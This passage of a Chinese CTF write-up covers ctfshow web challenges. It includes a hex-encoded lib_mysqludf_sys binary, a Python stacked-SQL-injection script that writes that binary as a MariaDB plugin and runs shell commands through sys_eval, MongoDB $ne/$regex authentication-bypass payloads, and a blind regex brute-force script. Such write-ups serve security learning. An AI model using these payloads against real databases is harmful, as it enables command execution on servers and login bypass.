16C7564665F7379735F696E666F5F6465696E6974006C69625F6D7973716C7564665F7379735F696E666F007379735F6765745F696E6974007379735F6765745F6465696E6974007379735F67657400676574656E76007374726C656E007379735F7365745F696E6974006D616C6C6F63007379735F7365745F6465696E69740066726565007379735F73657400736574656E76007379735F657865635F696E6974007379735F657865635F6465696E6974007379735F657865630073797374656D007379735F6576616C5F696E6974007379735F6576616C5F6465696E6974007379735F6576616C00706F70656E007265616C6C6F63007374726E6370790066676574730070636C6F7365006C6962632E736F2E36005F6564617461005F5F6273735F7374617274005F656E6400474C4942435F322E322E3500000000000000000000020002000200020002000200020002000200020002000200020001000100010001000100010001000100010001000100010001000100010001000100010001000100010001006F0100001000000000000000751A6909000002009101000000000000F0142000000000000800000000000000F0142000000000007816200000000000060000000200000000000000000000008016200000000000060000000300000000000000000000008816200000000000060000000A0000000000000000000000A81620000000000007000000040000000000000000000000B01620000000000007000000050000000000000000000000B81620000000000007000000060000000000000000000000C01620000000000007000000070000000000000000000000C81620000000000007000000080000000000000000000000D01620000000000007000000090000000000000000000000D816200000000000070000000A0000000000000000000000E016200000000000070000000B0000000000000000000000E816200000000000070000000C0000000000000000000000F016200000000000070000000D0000000000000000000000F816200000000000070000000E00000000000000000000000017200000000000070000000F00000000000000000000000817200000000000070000001000000000000000000000004883EC08E8EF000000E88A010000E8750700004883C408C3FF35F20C2000FF25F40C20000F1F4000FF25F20C20006800000000E9E0FFFFFFFF25EA0C20006801000000E9D0FFFFFFFF25E20C20006802000000E9C0FFFFFFFF25DA0C20006803000000E9B0FFFFFFFF25D20C20006804000000E9A0FFFFFFFF25CA0C20006805000000E990FFFFFFFF25C20C20006806000000E980FFFFFFFF25BA0C20006807000000E970FFFFFFFF25B20C20006808000000E960FFFFFFFF25AA0C20006809000000E950FFFFFFFF25A20C2000680A000000E940FFFFFFFF259A0C2000680B000000E930FFFFFFFF25920C2000680C000000E920FFFFFF4883EC08488B05ED0B20004885C07402FFD04883C408C390909090909090909055803D680C2000004889E5415453756248833DD00B200000740C488D3D2F0A2000E84AFFFFFF488D1D130A20004C8D25040A2000488B053D0C20004C29E348C1FB034883EB014839D873200F1F4400004883C0014889051D0C200041FF14C4488B05120C20004839D872E5C605FE0B2000015B415CC9C3660F1F84000000000048833DC009200000554889E5741A488B054B0B20004885C0740E488D3DA7092000C9FFE00F1F4000C9C39090554889E54883EC3048897DE8488975E0488955D8488B45E08B0085C07421488D0DE7050000488B45D8BA320000004889CE4889C7E89BFEFFFFC645FF01EB04C645FF000FB645FFC9C3554889E548897DF8C9C3554889E54883EC3048897DF8488975F0488955E848894DE04C8945D84C894DD0488D0DCA050000488B45E8BA1F0000004889CE4889C7E846FEFFFF488B45E048C7001E000000488B45E8C9C3554889E54883EC2048897DF8488975F0488955E8488B45F08B0083F801751C488B45F0488B40088B0085C0750E488B45F8C60001B800000000EB20488D0D83050000488B45E8BA2B0000004889CE4889C7E8DFFDFFFFB801000000C9C3554889E548897DF8C9C3554889E54883EC4048897DE8488975E0488955D848894DD04C8945C84C894DC0488B45E0488B4010488B004889C7E8BBFDFFFF488945F848837DF8007509488B45C8C60001EB16488B45F84889C7E84BFDFFFF4889C2488B45D0488910488B45F8C9C3554889E54883EC2048897DF8488975F0488955E8488B45F08B0083F8027425488D0D05050000488B45E8BA1F0000004889CE4889C7E831FDFFFFB801000000E9AB000000488B45F0488B40088B0085C07422488D0DF2040000488B45E8BA280000004889CE4889C7E8FEFCFFFFB801000000EB7B488B45F0488B40084883C004C70000000000488B45F0488B4018488B10488B45F0488B40184883C008488B00488D04024883C0024889C7E84BFCFFFF4889C2488B45F848895010488B45F8488B40104885C07522488D0DA4040000488B45E8BA1A0000004889CE4889C7E888FCFFFFB801000000EB05B800000000C9C3554889E54883EC1048897DF8488B45F8488B40104885C07410488B45F8488B40104889C7E811FCFFFFC9C3554889E54883EC3048897DE8488975E0488955D848894DD0488B45E8488B4010488945F0488B45E0488B4018488B004883C001480345F0488945F8488B45E0488B4018488B10488B45E0488B4010488B08488B45F04889CE4889C7E8EFFBFFFF488B45E0488B4018488B00480345F0C60000488B45E0488B40184883C008488B10488B45E0488B40104883C008488B08488B45F84889CE4889C7E8B0FBFFFF488B45E0488B40184883C008488B00480345F8C60000488B4DF8488B45F0BA010000004889CE4889C7E892FBFFFF4898C9C3554889E54883EC3048897DE8488975E0488955D8C745FC00000000488B45E08B0083F801751F488B45E0488B40088B55FC48C1E2024801D08B0085C07507B800000000EB20488D0DC2020000488B45D8BA2B0000004889CE4889C7E81EFBFFFFB801000000C9C3554889E548897DF8C9C3554889E54883EC2048897DF8488975F0488955E848894DE0488B45F0488B4010488B004889C7E882FAFFFF4898C9C3554889E54883EC3048897DE8488975E0488955D8C745FC00000000488B45E08B0083F801751F488B45E0488B40088B55FC48C1E2024801D08B0085C07507B800000000EB20488D0D22020000488B45D8BA2B0000004889CE4889C7E87EFAFFFFB801000000C9C3554889E548897DF8C9C3554889E54881EC500400004889BDD8FBFFFF4889B5D0FBFFFF488995C8FBFFFF48898DC0FBFFFF4C8985B8FBFFFF4C898DB0FBFFFFBF01000000E8BEF9FFFF488985C8FBFFFF48C745F000000000488B85D0FBFFFF488B4010488B00488D352C0200004889C7E852FAFFFF488945E8EB63488D85E0FBFFFF4889C7E8BDF9FFFF488945F8488B45F8488B55F04801C2488B85C8FBFFFF4889D64889C7E80CFAFFFF488985C8FBFFFF488D85E0FBFFFF488B55F0488B8DC8FBFFFF4801D1488B55F84889C64889CFE8D1F9FFFF488B45F8480145F0488B55E8488D85E0FBFFFFBE000400004889C7E831F9FFFF4885C07580488B45E84889C7E850F9FFFF488B85C8FBFFFF0FB60084C0740A4883BDC8FBFFFF00750C488B85B8FBFFFFC60001EB2B488B45F0488B95C8FBFFFF488D0402C60000488B85C8FBFFFF4889C7E8FBF8FFFF488B95C0FBFFFF488902488B85C8FBFFFFC9C39090909090909090554889E5534883EC08488B05A80320004883F8FF7419488D1D9B0320000F1F004883EB08FFD0488B034883F8FF75F14883C4085BC9C390904883EC08E84FF9FFFF4883C408C300004E6F20617267756D656E747320616C6C6F77656420287564663A206C69625F6D7973716C7564665F7379735F696E666F29000000000000006C69625F6D7973716C7564665F7379732076657273696F6E20302E302E33000045787065637465642065786163746C79206F6E6520737472696E67207479706520706172616D6574657200000000000045787065637465642065786163746C792074776F20617267756D656E74730000457870656374656420737472696E67207479706520666F72206E616D6520706172616D6574657200436F756C64206E6F7420616C6C6F63617465206D656D6F7279007200011B033B800000000F00000008F9FFFF9C00000051F9FFFFBC0000005BF9FFFFDC000000A7F9FFFFFC00000004FAFFFF1C0100000EFAFFFF3C01000071FAFFFF5C01000062FBFFFF7C0100008DFBFFFF9C0100005EFCFFFFBC010000C5FCFFFFDC010000CFFCFFFFFC010000FEFCFFFF1C02000065FDFFFF3C0200006FFDFFFF5C0200001400000000000000017A5200017810011B0C0708900100001C0000001C00000064F8FFFF4900000000410E108602430D0602440C070800001C0000003C0000008DF8FFFF0A00000000410E108602430D06450C07080000001C0000005C00000077F8FFFF4C00000000410E108602430D0602470C070800001C0000007C000000A3F8FFFF5D00000000410E108602430D0602580C070800001C0000009C000000E0F8FFFF0A00000000410E108602430D06450C07080000001C000000BC000000CAF8FFFF6300000000410E108602430D06025E0C070800001C000000DC0000000DF9FFFFF100000000410E108602430D0602EC0C070800001C000000FC000000DEF9FFFF2B00000000410E108602430D06660C07080000001C0000001C010000E9F9FFFFD100000000410E108602430D0602CC0C070800001C0000003C0100009AFAFFFF6700000000410E108602430D0602620C070800001C0000005C010000E1FAFFFF0A00000000410E108602430D06450C07080000001C0000007C010000CBFAFFFF2F00000000410E108602430D066A0C07080000001C0000009C010000DAFAFFFF6700000000410E108602430D0602620C070800001C000000BC01000021FBFFFF0A00000000410E108602430D06450C07080000001C000000DC0100000BFBFFFF5501000000410E108602430D060350010C0708000000000000000000FFFFFFFFFFFFFFFF0000000000000000FFFFFFFFFFFFFFFF00000000000000000000000000000000F01420000000000001000000000000006F010000000000000C0000000000000088090000000000000D000000000000004811000000000000F5FEFF6F00000000B8010000000000000500000000000000E805000000000000060000000000000070020000000000000A000000000000009D010000000000000B000000000000001800000000000000030000000000000090162000000000000200000000000000380100000000000014000000000000000700000000000000170000000000000050080000000000000700000000000000F0070000000000000800000000000000600000000000000009000000000000001800000000000000FEFFFF6F00000000D007000000000000FFFFFF6F000000000100000000000000F0FFFF6F000000008607000000000000F9FFFF6F0000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000F81420000000000000000000000000000000000000000000B609000000000000C609000000000000D609000000000000E609000000000000F609000000000000060A000000000000160A000000000000260A000000000000360A000000000000460A000000000000560A000000000000660A000000000000760A0000000000004743433A2028474E552920342E342E3720323031323033313320285265642048617420342E342E372D3429004743433A2028474E552920342E342E3720323031323033313320285265642048617420342E342E372D31372900002E73796D746162002E737472746162002E7368737472746162002E6E6F74652E676E752E6275696C642D6964002E676E752E68617368002E64796E73796D002E64796E737472002E676E752E76657273696F6E002E676E752E76657273696F6E5F72002E72656C612E64796E002E72656C612E706C74002E696E6974002E74657874002E66696E69002E726F64617461002E65685F6672616D655F686472002E65685F6672616D65002E63746F7273002E64746F7273002E6A6372002E646174612E72656C2E726F002E64796E616D6963002E676F74002E676F742E706C74002E627373002E636F6D6D656E7400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001B0000000700000002000000000000009001000000000000900100000000000024000000000000000000000000000000040000000000000000000000000000002E000000F6FFFF6F0200000000000000B801000000000000B801000000000000B400000000000000030000000000000008000000000000000000000000000000380000000B000000020000000000000070020000000000007002000000000000780300000000000004000000020000000800000000000000180000000000000040000000030000000200000000000000E805000000000000E8050000000000009D0100000000000000000000000000000100000000000000000000000000000048000000FFFFFF6F0200000000000000860700000000000086070000000000004A0000000000000003000000000000000200000000000000020000000000000055000000FEFFFF6F0200000000000000D007000000000000D007000000000000200000000000000004000000010000000800000000000000000000000000000064000000040000000200000000000000F007000000000000F00700000000000060000000000000000300000000000000080000000000000018000000000000006E000000040000000200000000000000500800000000000050080000000000003801000000000000030000000A000000080000000000000018000000000000007800000001000000060000000000000088090000000000008809000000000000180000000000000000000000000000000400000000000000000000000000000073000000010000000600000000000000A009000000000000A009000000000000E0000000000000000000000000000000040000000000000010000000000000007E000000010000000600000000000000800A000000000000800A000000000000C80600000000000000000000000000001000000000000000000000000000000084000000010000000600000000000000481100000000000048110000000000000E000000000000000000000000000000040000000000000000000000000000008A00000001000000020000000000000058110000000000005811000000000000EC0000000000000000000000000000000800000000000000000000000000000092000000010000000200000000000000441200000000000044120000000000008400000000000000000000000000000004000000000000000000000000000000A0000000010000000200000000000000C812000000000000C812000000000000FC01000000000000000000000000000008000000000000000000000000000000AA000000010000000300000000000000C814200000000000C8140000000000001000000000000000000000000000000008000000000000000000000000000000B1000000010000000300000000000000D814200000000000D8140000000000001000000000000000000000000000000008000000000000000000000000000000B8000000010000000300000000000000E814200000000000E8140000000000000800000000000000000000000000000008000000000000000000000000000000BD000000010000000300000000000000F014200000000000F0140000000000000800000000000000000000000000000008000000000000000000000000000000CA000000060000000300000000000000F814200000000000F8140000000000008001000000000000040000000000000008000000000000001000000000000000D3000000010000000300000000000000781620000000000078160000000000001800000000000000000000000000000008000000000000000800000000000000D8000000010000000300000000000000901620000000000090160000000000008000000000000000000000000000000008000000000000000800000000000000E1000000080000000300000000000000101720000000000010170000000000001000000000000000000000000000000008000000000000000000000000000000E60000000100000030000000000000000000000000000000101700000000000059000000000000000000000000000000010000000000000001000000000000001100000003000000000000000000000000000000000000006917000000000000EF00000000000000000000000000000001000000000000000000000000000000010000000200000000000000000000000000000000000000581F00000000000068070000000000001B0000002C00000008000000000000001800000000000000090000000300000000000000000000000000000000000000C02600000000000042030000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000000000000000000000000000003000100900100000000000000000000000000000000000003000200B80100000000000000000000000000000000000003000300700200000000000000000000000000000000000003000400E80500000000000000000000000000000000000003000500860700000000000000000000000000000000000003000600D00700000000000000000000000000000000000003000700F00700000000000000000000000000000000000003000800500800000000000000000000000000000000000003000900880900000000000000000000000000000000000003000A00A00900000000000000000000000000000000000003000B00800A00000000000000000000000000000000000003000C00481100000000000000000000000000000000000003000D00581100000000000000000000000000000000000003000E00441200000000000000000000000000000000000003000F00C81200000000000000000000000000000000000003001000C81420000000000000000000000000000000000003001100D81420000000000000000000000000000000000003001200E81420000000000000000000000000000000000003001300F01420000000000000000000000000000000000003001400F81420000000000000000000000000000000000003001500781620000000000000000000000000000000000003001600901620000000000000000000000000000000000003001700101720000000000000000000000000000000000003001800000000000000000000000000000000000100000002000B00800A0000000000000000000000000000110000000400F1FF000000000000000000000000000000001C00000001001000C81420000000000000000000000000002A00000001001100D81420000000000000000000000000003800000001001200E81420000000000000000000000000004500000002000B00A00A00000000000000000000000000005B00000001001700101720000000000001000000000000006A00000001001700181720000000000008000000000000007800000002000B00200B0000000000000000000000000000110000000400F1FF000000000000000000000000000000008400000001001000D01420000000000000000000000000009100000001000F00C01400000000000000000000000000009F00000001001200E8142000000000000000000000000000AB00000002000B0010110000000000000000000000000000C10000000400F1FF00000000000000000000000000000000D40000000100F1FF90162000000000000000000000000000EA00000001001300F0142000000000000000000000000000F700000001001100E0142000000000000000000000000000040100000100F1FFF81420000000000000000000000000000D01000012000B00D10D000000000000D1000000000000001501000012000B00130F0000000000002F000000000000001E01000020000000000000000000000000000000000000002D01000020000000000000000000000000000000000000004101000012000C00481100000000000000000000000000004701000012000B00A90F0000000000000A000000000000005701000012000000000000000000000000000000000000006B01000012000000000000000000000000000000000000007F01000012000B00A20E00000000000067000000000000008D01000012000B00B30F0000000000005501000000000000960100001200000000000000000000000000000000000000A901000012000B00950B0000000000000A00000000000000C601000012000B00B50C000000000000F100000000000000D30100001200000000000000000000000000000000000000E50100001200000000000000000000000000000000000000F901000012000000000000000000000000000000000000000D02000012000B004C0B00000000000049000000000000002802000022000000000000000000000000000000000000004402000012000B00A60D0000000000002B000000000000005302000012000B00EB0B0000000000005D000000000000006002000012000B00480C0000000000000A000000000000006F02000012000000000000000000000000000000000000008302000012000B00420F0000000000006700000000000000910200001200000000000000000000000000000000000000A50200001200000000000000000000000000000000000000B902000012000B00520C0000000000006300000000000000C10200001000F1FF10172000000000000000000000000000CD02000012000B009F0B0000000000004C00000000000000E30200001000F1FF20172000000000000000000000000000E80200001200000000000000000000000000000000000000FD02000012000B00090F0000000000000A000000000000000D0300001200000000000000000000000000000000000000220300001000F1FF101720000000000000000000000000002903000012000000000000000000000000000000000000003C03000012000900880900000000000000000000000000000063616C6C5F676D6F6E5F73746172740063727473747566662E63005F5F43544F525F4C4953545F5F005F5F44544F525F4C4953545F5F005F5F4A43525F4C4953545F5F005F5F646F5F676C6F62616C5F64746F72735F61757800636F6D706C657465642E363335320064746F725F6964782E36333534006672616D655F64756D6D79005F5F43544F525F454E445F5F005F5F4652414D455F454E445F5F005F5F4A43525F454E445F5F005F5F646F5F676C6F62616C5F63746F72735F617578006C69625F6D7973716C7564665F7379732E63005F474C4F42414C5F4F46465345545F5441424C455F005F5F64736F5F68616E646C65005F5F44544F525F454E445F5F005F44594E414D4943007379735F736574007379735F65786563005F5F676D6F6E5F73746172745F5F005F4A765F5265676973746572436C6173736573005F66696E69007379735F6576616C5F6465696E6974006D616C6C6F634040474C4942435F322E322E350073797374656D4040474C4942435F322E322E35007379735F657865635F696E6974007379735F6576616C0066676574734040474C4942435F322E322E35006C69625F6D7973716C7564665F7379735F696E666F5F6465696E6974007379735F7365745F696E697400667265654040474C4942435F322E322E35007374726C656E4040474C4942435F322E322E350070636C6F73654040474C4942435F322E322E35006C69625F6D7973716C7564665F7379735F696E666F5F696E6974005F5F6378615F66696E616C697A654040474C4942435F322E322E35007379735F7365745F6465696E6974007379735F6765745F696E6974007379735F6765745F6465696E6974006D656D6370794040474C4942435F322E322E35007379735F6576616C5F696E697400736574656E764040474C4942435F322E322E3500676574656E764040474C4942435F322E322E35007379735F676574005F5F6273735F7374617274006C69625F6D7973716C7564665F7379735F696E666F005F656E64007374726E6370794040474C4942435F322E322E35007379735F657865635F6465696E6974007265616C6C6F634040474C4942435F322E322E35005F656461746100706F70656E4040474C4942435F322E322E35005F696E697400'
codes = []
for i in range(0, len(code), 128):
    codes.append(code[i:min(i + 128, len(code))])

# 建临时表
sql = '''create table temp(data longblob)'''
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 清空临时表
sql = '''delete from temp'''
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 插入第一段数据
sql = '''insert into temp(data) values (0x{})'''.format(codes[0])
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 更新连接剩余数据
for k in range(1, len(codes)):
    sql = '''update temp set data = concat(data,0x{})'''.format(codes[k])
    payload = '''0';{};-- A'''.format(sql)
    requests.get(url + payload)

# 10.3.18-MariaDB
# 写入so文件
sql = '''select data from temp into dumpfile '/usr/lib/mariadb/plugin/udf.so\''''
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 引入自定义函数
sql = '''create function sys_eval returns string soname 'udf.so\''''
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 命令执行，结果更新到界面
sql = '''update ctfshow_user set pass=(select sys_eval('cat /flag.her?'))'''
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 查看结果
r = requests.get(url[:-4] + '?page=1&limit=10')
print(r.text)

```

## web249

`$user = $memcache->get($id);`使用 Memcache 类的 get 方法从缓存中获取数据，$id 是传入的键，用于从缓存中获取与该键对应的值，当 `get()` 接收到一个数组时，它会尝试获取数组中所有元素对应的键。使用数组绕过

`?id[]=flag`

## web250

`$regex` 是用于正则表达式匹配的操作符。

- `$regex` 允许使用正则表达式进行模式匹配
- 语法：`{ 字段: { $regex: 模式 } }`

`$ne` 是 MongoDB 和其他 NoSQL 数据库中的"不等于"(not equal)操作符。

- `$ne` 用于查找字段值不等于指定值的文档
- 语法：`{ 字段: { $ne: 值 } }`

```http
POST /api/ HTTP/1.1
Host: bea56c10-9388-468e-9496-d42a8a42cdb1.challenge.ctf.show
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs
Content-Length: 31
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://bea56c10-9388-468e-9496-d42a8a42cdb1.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://bea56c10-9388-468e-9496-d42a8a42cdb1.challenge.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

username[$ne]=1&password[$ne]=1
```

## web251

`username=admin&password[$ne]=anything`得到回显并不是flag，`username[$ne]=admin&password[$ne]=anything`得到flag

## web252

```
username[$regex]=^[^admin].*$&password[$ne]=1
username[$ne]=1&password[$regex]=ctfshow{
username[$regex]=f_l_a_g&password[$ne]=1
```

`[^admin]`是一个字符类的否定，表示匹配所有匹配任何**不在**括号内的字符，所以`^[^admin]`是匹配所有**首字符不是**`a\d\m\i\n`的用户名。

## web253

正则遍历进行盲注，但是有个问题，我如果直接遍历的话容易给我搞到admin，所以我加了一个f，并且正则问题

`f'^f{temp_target}.*$'`只匹配`f`开头的字符串，`f'f{temp_target}.*$'`匹配`f`在字符串任意位置的字符串，那为什么不能用第一种呢，因为我使用了另一个payload，`f'^[^admin]{temp_target}.*$'`，来测试发现其实username的正则应该是`ql_flag`，MongoDB中的正则表达式默认是**子字符串匹配**的，就是说只要有那个关键词的字符串都可以匹配，所以网上大家写的脚本即使只有`flag`也可以正常运行

```python
import requests
import string
table = string.digits+string.ascii_lowercase+string.ascii_uppercase+'_{}-,'
url = 'http://8d9e641e-652a-4212-8690-201e1a4fcd01.challenge.ctf.show/api/index.php'
target = ''
for i in range(100):
    for j in table:
        temp_target = target+j
        payload1 = f'^[^admin]{temp_target}.*$'
        # payload1 = f'f{temp_target}.*$'
        data1 = {'username[$regex]':payload1
                ,'password[$ne]':1}

        payload2 = f'^{temp_target}.*$'
        data2 = {'username[$regex]':'^[^admin]ql_flag'
                 ,'password[$regex]':payload2}

        # print(payload1)
        # print(payload2)
        r = requests.post(url=url, data=data2).text
        if r"\u767b\u9646\u6210\u529f" in r:
            target += j
            print(target)
            break

```

## 小结

起初是因为疑难解答群最近挺多师傅问这些题目，但是回头发现自己也不是特别熟悉，就拿三天时间慢慢的做了做，发现还是挺有意思的，之前不甚懂的，现在基本随便看看就知道，就当复习了一下
